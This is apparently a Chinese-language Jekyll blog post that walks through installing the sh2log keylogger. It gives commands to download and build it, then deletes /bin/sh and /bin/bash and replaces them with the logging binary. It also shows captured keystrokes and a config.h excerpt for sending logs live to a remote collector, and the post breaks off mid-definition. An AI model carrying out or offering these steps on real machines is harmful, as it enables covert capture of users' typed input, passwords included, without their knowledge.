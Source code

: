 ```yaml
---
layout: post
title: "sh2log安装指南"
description: ""
category: 工具使用
tags: [keylogger]
---
```

{% include JB/setup %}

## 参考资料 ##
http://fuzzexp.org/linuxsh2log_keylogger.html

http://packetstormsecurity.com/files/51780/sh2log-1.0.tgz.html

## 安装步骤 ##

	wget http://packetstormsecurity.com/files/download/51780/sh2log-1.0.tgz

	tar zxvf sh2log-1.0.tgz
	cd sh2log-1.0

	make linux

报错

	[root@localhost sh2log-1.0]# make linux
	gcc -g -W -Wall -o sh2log  rc4.c sha1.c sh2log.c -lutil -DLINUX
	gcc -g -W -Wall -o sh2logd rc4.c sha1.c sh2logd.c
	gcc -g -W -Wall -o parser  rc4.c sha1.c parser.c -lX11 -L/usr/X11R6/lib
	parser.c:35:22: error: X11/Xlib.h: No such file or directory


centos 解决办法:(centos 5.4)


	yum install libX11-devel


ubuntu 解决方法:(ubuntu 10.04)

	apt-get install libx11-dev
	用apt-cache search x11得知包的名称为libx11-dev


替换bash,运行sh2logd

	mkdir /bin/shells/
	cp -p /bin/sh /bin/shells/
	cp -p /bin/bash /bin/shells/
	rm -rf /bin/sh /bin/bash
	cp -p sh2log /bin/sh
	cp -p sh2log /bin/bash
	./sh2logd

会在当前目录生成以时间命令的bin文件.


	[root@localhost sh2log-1.0]# ls
	config.h  NEWS.txt  rc4.c       sh2log                      sh2logd    sha1.h
	GPL.txt   parser    rc4.h       sh2log-20130924-032100.bin  sh2logd.c  test.bin
	Makefile  parser.c  README.txt  sh2log.c                    sha1.c


	[root@localhost sh2log-1.0]# ./parser sh2log-20130924-032100.binSID
    SOURCE IP    UID    PID    START DATE      END DATE      DURATION1
	[127.0.0.1]     0 ( 3386)  24/09 03:21 | 24/09 03:22  X     1m 02s
	In interactive mode, use Enter to fast forward, Space to pause and q to quit.Note that xterm is required for window resizing.
	Session ID -> 1Interactive mode (y/n) ?
	n
	24/09 03:21:30 -> test24/09
	03:21:31 -> 123424/09
	03:21:35 -> hello24/09
	03:21:37 -> ls


可以通过配置config.h 让键盘记录实时的发送到远端的sh2logd上.

	ifndef _CONFIG_H
	#define _CONFIG_H

	#define CONNECT_IP      "127.0.0.1"
	#define SERVER_PORT     40119
	#define REAL_SHELL_DIR  "/bin/shells"
	#define MAX_LOG_SIZE    (1048576 * 256)
	#define BUFSIZE         4096

	char *secret = "\xBA\x36\xF7\x2A\x50\x8E\x5B\xD3" \
              
